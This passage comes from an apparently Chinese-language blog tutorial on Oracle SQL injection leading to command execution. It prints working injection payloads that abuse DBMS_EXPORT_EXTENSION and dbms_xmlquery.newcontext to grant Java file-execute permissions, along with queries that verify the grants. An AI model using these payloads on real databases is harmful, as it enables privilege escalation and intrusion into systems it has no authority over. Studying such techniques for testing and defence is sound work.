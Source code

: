 通过以下命令可以查看all_objects内部改变：

```
select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%'
```

[![newcontext_all_objects_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_all_objects_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_all_objects_01.png)

[newcontext_all_objects_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_all_objects_01.png)



(2) 赋予当前用户java权限

```
--当前用户查看
select user from dual

select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''YY'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;
```

查看可用的java权限列表，通过以下命令查看赋权情况

```
select * from user_java_policy where grantee_name='YY';
```

[![newcontext_java_policy_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_java_policy_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01.png)

[newcontext_java_policy_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_java_policy_01.png)



若赋权失败，最后执行命令时会报如下错误
[![newcontext_linxruncmd_error_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_linxruncmd_error_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_error_01.png)

[newcontext_linxruncmd_error_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_error_01.png)



此处很坑，前后折腾，不知道哪里问题，有时可以执行命令，有时不能，网上找了太多赋权命令，不知是哪一条成功，导致我恢复快照不下10次测试问题到底出在哪。

最后找到上述查看赋权情况命令，才找出哪条赋权命令能成功。所以，坑在哪里？

**[T00ls](https://www.t00ls.net/thread-35507-1-1.html)**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
```

